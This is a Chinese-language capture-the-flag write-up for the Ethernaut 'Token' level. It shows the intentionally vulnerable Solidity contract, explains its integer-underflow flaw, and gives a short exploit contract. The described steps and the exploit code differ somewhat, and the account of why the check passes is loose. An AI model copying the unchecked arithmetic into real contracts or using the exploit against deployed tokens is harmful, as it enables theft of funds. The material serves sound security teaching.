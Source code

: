 # Ethernaut:05_Token
### 合約分析
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

    mapping(address => uint) balances;
    uint public totalSupply;
  
    constructor(uint _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }
  
    function transfer(address _to, uint _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }
  
    function balanceOf(address _owner) public view returns (uint balance) {
        return balances[_owner];
    }
}
```

這個合約中有一個關鍵的漏洞在於 `transfer` 函數中的這一行：

```solidity
require(balances[msg.sender] - _value >= 0);
```

這個檢查表面上是用來確保轉帳金額 `_value` 不會超過 `msg.sender` 的餘額，但是，由於合約使用的是 Solidity 0.6.0 版本，這個版本的 Solidity 並沒有自動檢測溢位的功能。也就是說，如果 `balances[msg.sender]` 的值本來就很小，而你試圖轉出比餘額還多的代幣，這裡會發生 **下溢**（underflow）。

例如，假設 `balances[msg.sender]` 是 20，而 `_value` 是 21，這時 `balances[msg.sender] - _value` 會嘗試減去超過餘額的數字，結果會發生下溢，變成一個極大的正數，這樣就能通過 `require` 檢查，並導致你的餘額變成一個非常大的數字。

### Solutions

步驟如下：

1. **確認初始餘額**：當合約部署時，合約會給你（玩家地址）一個初始的代幣數量，例如 20 個代幣。
2. **觸發下溢**：我們要利用 `transfer` 函數來觸發下溢。你可以執行如下操作：

```solidity
IToken(challengeInstance).transfer(challengeInstance, 21);
```

這裡 `challengeInstance` 是合約的地址，而 `21` 是我們想要轉出的代幣數量。由於你的餘額只有 20 個代幣，當你試圖轉出 21 個代幣時，會觸發下溢，讓你的餘額變成一個極大值。

3. **獲取大量代幣**：執行以上操作後，你的帳戶餘額會變成一個非常大的數字，這樣就能成功通關。

### 實際操作
```solidity
pragma solidity ^0.8.0;

interface IToken {
    function balanceOf(address) external view returns (uint256);
    function transfer(address to, uint256 value) external returns (bool);
}

contract Hack {
    constructor(address _target) {
        IToken(_target).transfer(msg.sender, 1);
    }
}
```
### 參考資料
- [YouTube - Ethernaut 05 - Token](https://youtu.be/IxSK_OMVqu4?si=dwDQuEuF3-yVqssU)
